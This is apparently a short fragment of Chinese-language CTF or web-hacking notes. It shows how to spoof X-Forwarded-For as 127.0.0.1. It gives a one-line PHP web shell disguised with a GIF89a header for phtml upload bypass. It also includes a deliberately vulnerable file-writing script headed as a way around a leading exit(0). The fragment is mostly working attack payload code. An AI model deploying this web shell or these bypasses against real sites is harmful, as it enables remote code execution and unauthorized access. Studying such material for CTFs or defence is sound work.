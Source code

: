 应该是要伪造IP，在headers里面添加X-Forwarded-For

`headers['X-Forwarded-For'] = '127.0.0.1'`

![](img/17.png)


php - phtml马
```php
GIF89a? <script language="php">eval($_REQUEST[shell])</script>
```


## 绕过<?php exit(0);?>

```php
<?php
$content = '<?php exit(0);?>';
$content .= @$_POST['code'];
$filename = @$_POST['filename'];
if (isset($filename)){
file_put_contents($filename, $content);
}else{
echo "今天天气不错";
}
?>
```
